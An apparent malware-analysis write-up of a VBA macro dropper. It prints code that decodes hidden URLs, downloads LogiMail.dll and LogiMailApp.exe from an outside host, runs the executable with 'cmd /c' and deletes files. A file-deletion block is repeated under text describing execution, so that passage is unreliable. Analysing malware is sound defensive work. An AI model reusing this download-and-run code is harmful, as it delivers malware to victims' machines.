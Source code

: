 
![Long String Header](/images/bubarparlimen/lgstr-header.png)


Byte `MZ` and `This program cannot be run in DOS mode.` indicates its a `PE` file.

The function then continue with fetching few files from a hosting server and save it into the computer


```
    Gud = MyDecode("aHR0cHM6Ly9hcm15YmFyLmhvcHRvLm9yZy9Mb2dpTWFpbC5kbGwJc34DSga")  'Dllurl

    Outp = Environ("LOCALAPPDATA") + MyDecode("XE1pY3Jvc29mdFxPZmZpY2VcTG9naU1haWwuZGxs")
    retValue = CallWindowProc(pa, ByVal 1&, ByVal 2&, Gud, Outp)
```

The above section of code fetching a file from url `https://armybar[.]hopto.org/LogiMail[.]dll	` and then save into `\Microsoft\Office\LogiMail.dll`

```
    Gud = MyDecode("aHR0cHM6Ly9hcm15YmFyLmhvcHRvLm9yZy9Mb2dpTWFpbEFwcC5leGUJc34DSga") 'Exeurl


    Outp = Environ("LOCALAPPDATA") + MyDecode("XE1pY3Jvc29mdFxPZmZpY2VcTG9naU1haWxBcHAuZXhl")
    retValue = CallWindowProc(pa, ByVal 1&, ByVal 2&, Gud, Outp)
    Embedded = "c" & "m" & "d" & " /c " & Outp
    retValue = CallWindowProc(pas, ByVal 1&, ByVal 2&, Gud, Embedded)
```

The above section of code does something similar but different file. First fetching a file from url `https://armybar[.]hopto.org/LogiMailApp[.]exe` then save it into `\Microsoft\Office\LogiMailApp.exe`.

```
Dim filesys
Set filesys = CreateObject("Scripting.FileSystemObject")
If filesys.FileExists(FuEmdPath1) Then
filesys.DeleteFile FuEmdPath1
End If
If filesys.FileExists(FuEmdPath2) Then
filesys.DeleteFile FuEmdPath2
End If
```

Then, this code shows that the function executes `cmd /c \Microsoft\Office\LogiMailApp.exe` 

```
Dim filesys
Set filesys = CreateObject("Scripting.FileSystemObject")
If filesys.FileExists(FuEmdPath1) Then
filesys.DeleteFile FuEmdPath1
End If
If filesys.FileExists(FuEmdPath2) Then
filesys.DeleteFile FuEmdPath2
End If
```
